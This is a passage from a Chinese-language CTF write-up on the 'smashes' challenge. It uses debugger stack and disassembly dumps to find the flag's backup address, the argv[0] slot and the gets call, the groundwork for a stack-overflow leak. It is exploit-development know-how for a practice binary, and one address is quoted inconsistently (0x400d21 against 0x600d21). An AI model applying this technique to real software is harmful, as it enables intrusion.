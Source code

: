 	smashes : 0x600d21 ("CTF{Here's the "...)

这里的0x400d21里面的值就是flag的备份，且不会被修改，就用它了。

接下来就是找偏移的位置，先找到argv[0]所在的位置，把断点断在主函数，

	► 0x4006d0 sub rsp, 8

	0x4006d4 mov rdi, qword ptr [rip + 0x200665] <0x600d40>

	0x4006db xor esi, esi

	0x4006dd call setbuf@plt <0x400660>

	0x4006e2 call 0x4007e0

	0x4006e7 xor eax, eax

	0x4006e9 add rsp, 8

	0x4006ed ret

	0x4006ee xor ebp, ebp

	0x4006f0 mov r9, rdx

	0x4006f3 pop rsi

	──────────────────────────────────────────────────────[ STACK]──────────────────────────────────────────────────────

	00:0000│ rsp 0x7fffffffe008 —▸ 0x7ffff7a05b97 (__libc_start_main+231) ◂— mov edi, eax

	01:0008│ 0x7fffffffe010 ◂— 0x1

	02:0010│ 0x7fffffffe018 —▸ 0x7fffffffe0e8 —▸ 0x7fffffffe407 ◂— 0x616b2f656d6f682f ('/home/ka')

	03:0018│ 0x7fffffffe020 ◂— 0x100008000

	04:0020│ 0x7fffffffe028 —▸ 0x4006d0 ◂— sub rsp, 8

	05:0028│ 0x7fffffffe030 ◂— 0x0

	06:0030│ 0x7fffffffe038 ◂— 0x9c0b903eb803e49e

	07:0038│ 0x7fffffffe040 —▸ 0x4006ee ◂— xor ebp, ebp

0x7fffffffe0e8里面存的就是现在的程序名。

接下来找gets的位置。

	RBP 0x4008b0 ▸— push r15

	RSP 0x7fffffffded0 —▸ 0x7fffffffe040 —▸ 0x4006ee ◂— xor ebp, ebp

	RIP 0x40080e ◂— call 0x4006c0

	─────────────────────────────────────────────────────[ DISASM]──────────────────────────────────────────────────────

	0x4007f3 mov rax, qword ptr fs:[0x28]

	0x4007fc mov qword ptr [rsp + 0x108], rax

	0x400804 xor eax, eax
